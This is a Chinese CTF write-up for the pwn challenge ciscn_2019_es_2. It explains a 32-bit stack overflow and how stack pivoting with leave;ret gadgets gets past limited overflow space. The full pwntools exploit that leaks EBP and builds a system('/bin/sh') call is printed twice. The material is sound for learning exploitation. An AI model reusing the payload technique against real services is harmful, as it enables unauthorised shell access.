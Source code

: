 ## 0x001 程序分析

程序的主要部分位于vul函数中，直接进入该函数分析

![](1.png)

这里有两个read输入，两个printf输出，其中接收输入的长度为0x30，**s** 的长度为0x28，没有其他信息。

程序中还有一个hack函数

![](2.png)

调用了system函数，程序中没有提供 "/bin/sh" 字符串。

## 0x002 漏洞分析

由于 **s** 的长度为0x28，可接受输入的长度为0x30，因此会造成数组越界，也就是栈溢出，但是这个栈溢出，由于输入的长度有限，仅仅只能覆盖到返回地址，无法给调用的函数传递参数。

## 0x003 漏洞利用

根据漏洞分析，由于输入的长度有限，可以控制返回地址，但是无法给执行的函数传递参数，因此需要使用 **栈迁移** 来解决空间不足的问题。

栈迁移就是通过利用一系列的 **leave;ret** 指令，最终控制 **EIP**。

在该程序中，第一个输入输出，可以泄漏 **EBP**，由于printf的结束符为 "\x00"，因此需要构造如下指令泄漏 **EBP** 地址。**s** 距离EBP为0x28，因此输入0x28个字符后，就会将EBP一起打印出来。（这里只需要输入0x27个字符，因为在使用sendline时，会自动在末尾添加"\x0a"，正好0x28个，如果使用send，那么就需要输入0x28个字符）

```
payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))
```

通过gdb调试，可以知道泄漏出来的 **EBP** 距离 **s** 的距离为0x38。有了EBP之后，就需要来构造栈空间了。

通过第二次输入，构造的栈空间如下：
```
payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
```

下面是详细分析图：

![](3.png)

![](4.png)

也就是在vul函数中的末尾执行leave时，会将我们构造好的EBP赋值给ESP，然后将新ESP的内容赋值给EBP，也就是通过修改EBP，重新规划了一块栈空间。在之后的返回地址处，使程序返回到程序中的其他 **leave;ret** 指令处。

![](5.png)

![](6.png)

由上图指令执行前后对比可以看到，从vul函数返回后，已经进入了我们规划好的栈空间中了，再通过 **leave;ret** 指令调整ESP的值，即可将返回地址定位到 **system** 函数，后面也有足够的空间存放返回地址和参数，即可成功获取系统权限。

最终EXP如下：
```
from pwn import *

p = process("./ciscn_2019_es_2")

payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))

payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
p.sendline(payload)

p.interactive()
```